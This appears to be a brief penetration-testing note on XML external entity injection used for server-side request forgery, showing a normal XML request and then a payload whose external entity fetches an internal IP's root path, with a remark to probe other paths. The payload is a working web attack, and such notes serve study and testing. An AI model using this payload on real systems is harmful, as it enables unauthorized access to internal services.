#xmli #xxe #ssrf #xml

## Code
```xml
<?xml version="1.0" encoding="UTF-8"?>
<productId>1</productId>
```

## Injection
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY myVar SYSTEM "http://[INTERNAL_IP]/"> ]>
<productId>&myVar;</productId>
```

Note: This return the content of `/` path, might need to explore others paths. 